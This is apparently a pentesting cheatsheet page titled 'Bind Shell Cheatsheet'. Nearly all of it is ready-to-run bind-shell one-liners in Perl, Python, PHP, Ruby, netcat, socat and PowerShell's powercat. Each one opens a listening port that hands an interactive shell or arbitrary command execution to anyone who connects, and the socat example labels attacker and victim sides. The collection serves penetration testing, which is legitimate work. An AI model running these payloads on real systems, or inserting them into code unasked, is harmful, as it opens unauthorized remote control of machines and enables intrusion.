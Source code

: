 +++
title = "Bind Shell Cheatsheet"
date = "2022-11-03"
description = "Some quick, easy and normal bind shells for pentesting."
+++
# Bind Shell

## Perl

```perl
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

## Python

Single line :
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",51337));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

Expanded version :

```python
import socket as s,subprocess as sp;

s1 = s.socket(s.AF_INET, s.SOCK_STREAM);
s1.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1);
s1.bind(("0.0.0.0", 51337));
s1.listen(1);
c, a = s1.accept();

while True: 
    d = c.recv(1024).decode();
    p = sp.Popen(d, shell=True, stdout=sp.PIPE, stderr=sp.PIPE, stdin=sp.PIPE);
    c.sendall(p.stdout.read()+p.stderr.read())
```

## PHP

```php
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

## Ruby

```ruby
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

## Netcat Traditional

```powershell
nc -nlvp 51337 -e /bin/bash
```

## Netcat OpenBsd

```powershell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f
```

## Socat

```powershell
user@attacker$ socat FILE:`tty`,raw,echo=0 TCP:target.com:12345 
user@victim$ socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

## Powershell

```powershell
https://github.com/besimorhino/powercat

# Victim (listen)
. .\powercat.ps1
powercat -l -p 7002 -ep

# Connect from attacker
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7002
```
